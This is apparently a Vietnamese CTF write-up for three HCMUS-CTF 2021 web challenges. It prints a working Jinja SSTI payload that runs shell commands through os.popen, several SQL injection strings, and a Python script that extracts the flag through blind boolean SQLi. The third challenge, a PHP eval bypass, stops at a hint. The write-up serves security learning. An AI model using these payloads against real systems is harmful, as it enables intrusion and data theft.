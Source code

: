 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Nhập thử bậy bạ 1 số đường dẫn lên thanh url thì ta thấy trang web in ra dòng trạng thái vô cùng đáng ghét:
> Sorry /index is under construction. Please try again later
+ Chúng in ra đường dẫn mà ta vừa nhập vào -> nghi ngờ XSS, SSTI
+ Ban đầu mình nghi ngờ là XSS nhưng lại không biết lấy gì trong trang web này. May mắn mình được một người bạn giúp đỡ gợi ý cho mình là SSTI.
+ Thử nhập <pre><code>{{7*7}}</code></pre> thì quả đúng là nó in ra 49
+ Tìm cách điều khiển nó thoi. Mình tìm được 1 payload để rce nó: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

##2. EasyLogin
+ Đọc đề bài và vào trang web thì 99.99% là SQLi rồi. Thử đăng nhập vào thì ta nhận được
> Nothing special here. Maybe an admin account will work?
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột mình 
+ Thử union select 'admin', 2 Thì trang web trả về một tấm hình khá ức chế và 1 câu:
> Well done login as admin, but the flag is in another castle
+ Thế là mình bế tắt 1 thời gian khá dài cho đến khi để ý trong hình có 1 dòng: 'Doing the same thing over and over and expecting a different result'. Dịch đại khái là làm thật nhiều lần và nhận được kết quả khác nhau -> Bruteforce. Mình thử <pre><code>admin' or 1=2--</code></pre> thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done'. Mình và 1 vài người bạn của mình viết 1 đoạn code để bruteforce dựa trên ý tưởng đó để bruteforce tên bảng trước
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Nghe tên bài và vào xem thì khá quen -> chắc là dùng PHP eval() để thực hiện lệnh
+ Nhập thử chữ thì -> 'Mày không thoát được đâu con trai to be counted' (Khá cay :( ) và hint:
> Alphabetic character and quote is not allowed here
+ Mình nghĩ ngay tới WAF bypass. Nhưng dù có search google thế nào cũm bị giới hạn kí tự và chặn mất quote
+ Hơn 1 ngày suy nghĩ thì mình nhận được 1 hint là '~'. Là gì? Search google một hồi thì biết được đó là đảo bit trong php
